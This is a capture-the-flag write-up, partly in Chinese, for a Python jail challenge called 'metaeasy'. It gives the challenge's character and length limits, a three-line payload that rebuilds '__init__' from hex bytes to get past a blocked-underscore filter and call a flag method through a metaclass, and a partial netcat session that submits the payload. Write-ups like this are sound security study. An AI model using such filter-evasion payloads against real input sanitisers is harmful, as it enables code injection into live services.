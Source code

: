 ``` python3
        print('3. Finish')
        x = input("Option ? :")
        if x == "1":
            setAttribute(Guest)
        elif x == "2":
            setMethod(Guest)
        elif x == "3":
            break
        else:
            print("invalid input.")
            cnt -= 1
    print("Well Done! We Create an instance for you !")
    obj = Guest()
    cnt = 0
    while cnt < 3:
        cnt += 1
        print('1. Inspect attribute')
        print('2. Using method')
        print('3. Exit')
        x = input("Option ? :")
        if x == "1":
            getAttribute(obj)
        elif x == "2":
            callMethod(Guest, obj)
        elif x == "3":
            print("Okay...exit...")
            break
        else:
            print("invalid input.")
            cnt -= 1

```

### 目標
使用MasterMetaClass這個MetaClass建立一個class並調用裡面的IWantGETFLAGPlz func

### 限制
* payload 不可超過三行
* payload 一行要低於45字
* payload 不可含[' ', '_', '$', '#', '@', '~']字元

### payload

``` python3
a=b'\x5f\x5f'.decode();self.i=a+'init'+a
self.d=['',(MasterMetaClass,),{self.i:print}]
type(*self.d)('',(),{})().IWantGETFLAGPlz()
```
``` bash
root@jimmyGW:~# nc metaeasy.balsnctf.com 19092
Welcome!!We have prepared a class named "Guest" for you
1. Add attribute
2. Add method
3. Finish
Option ? :2
Give me your method name :aaa
Give me your function:a=b'\x5f\x5f'.decode();self.i=a+'init'+a
1. Add attribute
2. Add method
3. Finish
Option ? :2
Give me your method name :bbb
Give me your function:self.d=['',(MasterMetaClass,),{self.i:print}]
```